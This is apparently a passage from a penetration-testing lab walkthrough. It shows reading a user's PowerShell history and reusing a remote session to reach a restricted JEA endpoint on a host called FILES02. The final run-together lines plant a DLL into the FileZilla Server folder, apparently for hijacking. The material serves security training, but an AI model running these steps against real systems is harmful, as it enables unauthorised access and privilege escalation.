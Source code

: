 In this case, we'll simulate that we have done lateral movement and gained access to multiple systems and users, including the clear text password for the _mary_ user, which allows us to remote desktop to _CLIENT02_. Let's start by reviewing the PowerShell history on the machine. First, we'll find out where the history is saved.

```
PS C:\> (Get-PSReadlineOption).HistorySavePath
C:\Users\mary\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

> Listing 29 - Finding location of PowerShell history

In this case, the PowerShell history appears to be in the default location. Now let's inspect it.

```
PS C:\> type C:\Users\mary\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
copy-item -path C:\shares\engineering_old\scripts\start.ps1.bak -destination C:\shares\home\mary
exit
h:
type .\start.ps1.bak
exit
...
```

> Listing 30 - Reading the PowerShell history for mary on CLIENT02

Reviewing the output, _mary_ indeed initiated a connection to the _FILES02_ machine previously. Additionally, we'll find that the **Copy-Item** command has been used to copy a file from the **C:\shares\engineering_old\scripts** directory.

Since we are logged in as _mary_, let's use the same **Enter-PSSession** command and connect to _FILES02_.

```
PS C:\> Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
[files02]: PS>
```

> Listing 31 - Connecting to JEA on FILES02 as mary

We have a shell on _FILES02_. Let's try to run some commands.

```
[files02]: PS>whoami
The term 'whoami.exe' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the
spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (whoami.exe:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException

[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
The syntax is not supported by this runspace. This can occur if the runspace is in no-language mode.
    + CategoryInfo          : ParserError: ([System.Securit...tCurrent().Name:String) [], ParseException
    + FullyQualifiedErrorId : ScriptsNotAllowed
```


[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"